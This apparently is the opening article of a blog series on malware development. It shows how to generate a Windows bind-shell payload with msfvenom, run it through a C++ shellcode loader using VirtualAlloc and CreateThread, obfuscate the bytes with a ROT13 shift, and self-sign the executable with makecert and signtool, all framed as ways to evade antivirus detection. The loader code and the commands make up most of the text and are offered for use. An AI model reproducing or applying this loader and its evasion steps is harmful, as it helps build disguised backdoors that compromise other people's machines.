




[Back to Main Page](../index.html) 

# Malware Development


## The basics

This blog will be focused on a github project in regards of development of malicious software. We will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  For the purpose of this and following articles we will use MS Visual Studio on Windows 10.

To start things off, we will try to create a C++ application that run malicious shellcode, trying not to be caught by AV Software.  
Why C++ and not C# or PowerShell script? Because it’s much more difficult to analyze compiled binary when compared to managed code or script.

### How detections work

Antimalware solutions are based on three types of detection mechanisms:

- Signature: inspection of file checksums (MD5, SH1,...) and presence of known strings and byte sequences in the binary
- Heuristic: application behavior and identification of characteristics (functions that are usually used in malware)
- Sandboxing: Analysis in a monitored environment

Multiple techniques to evade different mechanisms exist. For example:

- Polymorphic: To defeat signature-based detection (can also be at least multiple times recompiled).
- Obfuscation: Can evade heuristic based detection
- Conditional: Various statements that detect and bypass sandboxes
- Encoded Info: Encoding and encrypting sensitive information can help bypass signature-based detection as well as heuristic detection

### Generating Shellcode

First, we open up MS Visual Studio, and create a new project. We will be creating a Windows C++ Console Application (x86). 
We can use Metasploit to generate some malicious shellcode, for example a bind shell. Bind TCP opens up a port on the system and allows a connection from the remote attacking box. 

`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f c`



To execute shellcode, we need to allocate a new memory region, fill it with shellcode bytes and create a new thread. We can use this very basic shellcode function, where `const char shellcode[]` is what we just generated over msfvenom. It should look something like this when you are done.

```cpp
#include <Windows.h>

void main()
{
	const char shellcode[] = "\xfc\xe8\x82\";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

Before building and publishing the executable it would be best to discard any debugging information; this can be achieved by switching to 'Release' in the top menu bar, and disabling generation of debug information (linker configuration in project properties). 
Always make sure to be on a local computer path which can not give away some sensitive information, like your username of the local device, while compiling.

### Testing against Virus Total

Sophos Endpoint Security and Control removed it instantly on my testing machine. `Troj/Swrort-EK`, which is correct as this is the detection name for a family of Trojans that open a backdoor on the infected computer. Let's see what Virustotal thinks about our very first shellcode as well.



That is a lot, we need to figure a way to make the application more legitimate.

### Obfuscation of Shellcode

We can try to apply a ROT13 cypher to all bytes of the shellcode as an easy encryption. First, we need to change every byte we generated with msfvenom to the new value: 0x41 becomes 0x54, 0xFF becomes 0x0C and so on. During execution the shellcode will get decrypted by substracting a value of 0x0D (13) from every byte.

```
	for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) - 13;
	}
```

Unfortunately it doesn't help with the issue at all. We will have to find another way to make the application more legitimate.

### Analyzation of Shellcode

Analyzing malware detection systems behavior on VirusTotal we may notice that even a program that does basically nothing gets flagged as malicious by several AV engines.

We compile the following code for testing purpose and upload the .exe .

```
	void main()
	{
		return;
	}
```



Oh no. As we can see, even an empty program gets flagged as a virus. But how can we fix this?

### Signing the binary

Next, we want to create a certificate and sign the .exe. This can be done rather quickly by opening up the command line or power shell in visual studio and entering following commands.

```
makecert -r -pe -n "CN=Ratwr CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv RatwrCA.pvk RatwrCA.cer
certutil -user -addstore Root RatwrCA.cer
makecert -pe -n "CN=Ratwr Cert" -a sha256 -cy end -sky signature -ic RatwrCA.cer -iv RatwrCA.pvk -sv RatwrCert.pvk RatwrCert.cer
pvk2pfx -pvk RatwrCert.pvk -spc RatwrCert.cer -pfx RatwrCert.pfx
signtool sign /v /f RatwrCert.pfx /t http://timestamp.comodoca.com/authenticode shellcode.exe
```

We may have to play around with different timestamp services to make it work, for example:
* http://timestamp.comodoca.com/authenticode
* http://timestamp.verisign.com/scripts/timstamp.dll
* http://timestamp.digicert.com



Next, we can configure a post build event to make sure the .exe will get signed every time we change anything.
